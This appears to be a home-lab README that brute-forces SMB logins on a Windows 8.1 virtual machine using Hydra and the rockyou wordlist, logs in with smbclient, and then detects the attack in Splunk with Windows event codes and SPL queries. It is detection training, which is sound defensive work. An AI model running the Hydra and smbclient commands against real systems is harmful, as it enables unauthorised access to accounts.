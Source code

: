 # Brute Force Detection (Windows 8 + Splunk)

This lab simulates a brute-force attack on a Windows 8.1 VM using the SMB protocol and detects it using Splunk. It follows MITRE ATT&CK techniques:
- T1110: Brute Force
- T1078: Valid Accounts

---

## 🛠️ Lab Setup

### Machines
- **Attacker**: Kali Linux (Hydra, smbclient)
- **Victim**: Windows 8.1 (Build 9600) with:
  - Sysmon
  - Splunk Universal Forwarder
- **SIEM**: Splunk Enterprise (host machine)

### Tools Used
- `hydra`: for brute-force attack
- `smbclient`: for SMB access attempts
- `Sysmon`: for process and network monitoring
- `Splunk`: for log ingestion and analysis

---

## 🧪 Attack Steps

### 1. Scan the target for open ports (RDP/SMB) (Kali)
```bash
nmap -sV -O -p- 192.168.29.236
```
![Description for image 1](../Screenshots/BF-img1.png) 

### 2. SMB Brute Force via Hydra (Kali)
```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236
```
or 
```bash
hydra -l Futwear -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236 
```
![Description for image 1](../Screenshots/BF-img2.png) 

### 3. Login to smb with valid credentials (Kali)
**checks available shares**
```bash
smbclient -L //192.168.29.236 -U Futwear
```

![Description for image 1](../Screenshots/BF-img3.png) 

**To access and login to the smb shares**
```bash
smbclient -U Futwear //192.168.29.236/IPC$ -m SMB2
```
![Description for image 1](../Screenshots/BF-img4.png) 

### 4. Investigate in Splunk

**Event code - 4625 : Failed logon**
**Event code - 4624 : Successfull logon**

Set the time frame to **last 15 mins / last 60 mins:**
   ```spl
   index=main EventCode=4625 | stats count by Account_Name, Logon_Type, Failure_Reason
   ```

![Description for image 1](../Screenshots/BF-img5.png)

### 🔐 Logon Type Interpretation

| Logon Type | Meaning                  | Brute-force Likely? |
|------------|--------------------------|----------------------|
| 2          | Interactive (local login) | ❌ No (local)         |
| 3          | Network (SMB, remote share) | ✅ Yes               |
| 10         | RemoteInteractive (RDP)  | ✅ Yes                |
| 7          | Unlock                   | ❌ No                 |

> 📌 **Tip**: If you see many Logon Type `3` or `10` failures, that's a clear sign of a brute-force attack.

```spl
   index=main EventID=4625 LogonType 3 hostname="WIN-BSKF7AVFT5R"
```
![Description for image 1](../Screenshots/BF-img6.png)

```spl
   index=main EventID=4624 LogonType 3 hostname="WIN-BSKF7AVFT5R"
```
![Description for image 1](../Screenshots/BF-img7.png)
![Description for image 1](../Screenshots/BF-img8.png)

**Investigation in Splunk:**

* Many failed login events (4625) (logon-type = 3): 53,761
* Time frame : less than 15 min
* The origin IPAddress is same : 192.168.29.30
* we can also observe there is less time gap between last bruteforce attempt (timestamp - 22/05/2025 21.49.01.000) and succesfull login (event id  - 4624)(timestamp - 22/05/2025 21.49.30.000) from the same IP address


**Other ways of spl queries to detect bruteforce attacks: **
* Failed Logins (Event ID 4625)
   ```spl
    index=wineventlog EventCode=4625 IpAddress!="-" IpAddress!=""
    stats count by IpAddress, Account_Name
    where count > 5
    sort - count
   ```

* Successful Login After Brute Force (Event ID 4624)
   ```spl
   index=wineventlog EventCode=4624 IpAddress!="-" IpAddress!=""
   stats count by IpAddress, Account_Name
   ```